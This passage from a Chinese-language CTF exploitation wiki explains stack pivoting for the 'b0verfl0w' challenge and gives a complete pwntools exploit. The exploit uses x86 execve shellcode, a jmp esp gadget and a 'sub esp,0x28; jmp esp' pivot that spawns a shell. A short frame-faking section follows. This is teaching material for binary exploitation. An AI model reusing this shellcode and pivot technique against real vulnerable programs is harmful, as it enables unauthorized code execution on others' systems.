 但是其所能溢出的字节就只有 50-0x20-4=14 个字节，能控制得字节太少，考虑stack pivoting 。由于程序本身并没有开启堆栈保护，所以我们可以在栈上布置 shellcode 并执行。基本利用思路如下：

- 利用栈溢出布置 shellcode
- 控制 eip 指向 shellcode 处

因为栈上的相对偏移是固定的，所以可以通过栈溢出对esp进行操作，使其指向shellcode处

![Alt](img/wiki-ROPTricks2.png)

payload布置：`shellcode|padding|fake ebp|0x08048504|set esp point to shellcode and jmp esp`

通过计算：`length = size(shellcode+padding)+size(fake ebp)+size(0x08048504) = 0x28`
所以需要执行的指令为

```asm
    sub esp,0x28
    jmp esp
```

```python
    from pwn import *
    sh = process('./b0verfl0w')

    shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
    shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
    shellcode_x86 += "\x0b\xcd\x80"

    sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
    jmp_esp = 0x08048504
    payload = shellcode_x86 + (0x20 - len(shellcode_x86)) * 'b'
    payload += 'bbbb'   # 填充ebp
    payload += p32(jmp_esp) # ret => pop eip,此时esp指向sub_esp_jmp处
    payload += sub_esp_jmp
    sh.sendline(payload)
    sh.interactive()
```

### EkoPartyCTF 2016 fuckzing-exploit-200

## frame faking

同时控制 EBP 与 EIP，在控制程序执行流的同时，也改变程序栈帧的位置。一般来说其 `payload = buffer padding|fake ebp|leave ret addr|`

### 2018 安恒杯 over
